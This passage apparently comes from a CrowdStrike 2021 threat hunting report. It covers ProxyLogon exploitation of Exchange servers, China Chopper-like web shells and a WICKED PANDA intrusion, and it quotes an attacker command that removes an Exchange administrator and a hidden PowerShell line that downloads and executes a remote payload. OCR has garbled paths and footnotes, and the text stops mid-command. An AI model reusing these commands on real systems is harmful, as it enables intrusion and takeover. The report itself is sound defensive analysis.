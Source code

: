 web shell had similarities with a China Chopper\-like web shell. The below command 
was seen across multiple organizations that were impacted by the campaign. It 
attempts to delete the administrator account from the Exchange Organization 
administrators group in a likely attempt to deny legitimate administrators from being 
able to thwart their actions.Cmd c cd d C:inetpubwwwrootaspnet\_clientsystem\_web\&net 
group Exchange Organization administrators administer del 
domain\& echo \[S] \&cd \& echo \[E]45For more information see: https:msrc.microsoft.comupdate\-guidevulnerabilityCVE\-2020\-0688 
46For further detail on 2020s most commonly seen exploints, check out the 2021 CrowdStrike GlobalThreat Report.52During 2020, the CVE\-2020\-0688 vulnerability45 impacting Microsoft Exchange 
servers was among the exploits most commonly observed by CrowdStrike.46 Falcon 
Complete first thought that this latest activity was a resurgence of exploits against 
this known vulnerability and began its investigation on that basis. However, analysts 
very quickly realized that there was no forensic evidence to link this latest campaign to 
the CVE\-2020\-0688 vulnerability.Through pattern analysis of IIS web logs and Microsoft Exchange ECP Server logs, Falcon 
Complete identified a pattern of activity exploiting the Get\-OabVirtualDirectory and 
the Set\-OabVirtualDirectory commands. Threat actors were using these commands 
to write an ASPX\-based China Chopper\-like web shell into an Offline Address Book (OAB) 
virtual directory. The threat actors would then use that web shell for follow\-on command 
execution. This exploit chain has since been confirmed as ProxyLogon.47Prior to Microsoft releasing the ProxyLogon patches, Falcon Complete responded to 
and remediated all exploitation and re\-exploitation incidents observed in its customers' 
environments. This was done via network containment, and the removal of all web shells 
and any additional adversary artifacts via remote response tools built into the Falcon 
platform. After the release of the patches, Falcon Complete advised its customers of the 
urgent need to patch while continuing to protect their environments 247\.Security Is a 247 JobOverWatch observed hundreds of instances of Microsoft Exchange exploitation between 
Feb. 27, 2021 and March 4, 2021\. CrowdStrike observed at least six China\-nexus 
adversaries attempting to conduct post\-exploitation operations following successful 
exploitation. In cases where the customer was not subscribed to Falcon Complete, 
OverWatch saw some security teams struggle to deliver the round\-the\-clock rapid 
response required to manage an unpatched vulnerability. In such cases, OverWatch 
continued to track the activity as adversaries deployed remote access malware, 
conducted broad host and user\-based reconnaissance operations, and attempted 
lateral movement, continuing to escalate the new activity to the victim organization.ProxyLogon was a rare cybersecurity event: mass exploitation of Microsoft Exchange 
servers by multiple alleged state\-nexus adversaries, enabled by a variety of zero\-day 
exploits. The combined expertise of OverWatch and Falcon Complete helped protect 
CrowdStrike customers from these exploits prior to their public announcement. The 
exploitation of vulnerable public\-facing applications and services remains a prominent 
intrusion theme, and one that shows no signs of abating as organizations across all 
verticals continue to grapple with basic security hygiene and patch management. 
Organizations must employ strict patch management and enforce robust user and 
password controls, coupled with robust privileged access management practices 
while ensuring an appropriate level of scrutiny and caution is applied for all externally 
accessible services.47https:proxylogon.com2021 Threat Hunting Report53SharePoint Exploitation Becomes a Tale of
Two OutcomesIn todays fight against globally diffuse and increasingly fast\-moving cyber threats,48 
organizations need to be prepared to respond quickly to security events. OverWatchs 
continuous hunting ensures that threats dont go undetected whenever they strike. 
Equally important, though, is the speed of the response to those alerts to disrupt the 
adversary at the earliest possible opportunity. The next story examines the outcomes of 
a rapid response, remediation and investigation by Falcon Complete that began within 
just five minutes of receiving an OverWatch alert. It goes on to explore what happened 
just a day later when the same adversary had more time to pursue their actions on 
objectives at a different organization that was not a Falcon Complete customer.In the second half of 2020, OverWatch found evidence of an active intrusion by WICKED 
PANDA against a Falcon Complete customer in the professional services industry. WICKED 
PANDA had exploited a multi\-tenant IIS web server and used the below PowerShell 
command to download and execute a malicious payload under the IIS worker process.powershell \-w hidden \-ep bypass \-c IEX(new\-object
System.Net.WebClient).DownloadString('https\[:]msettings\[.]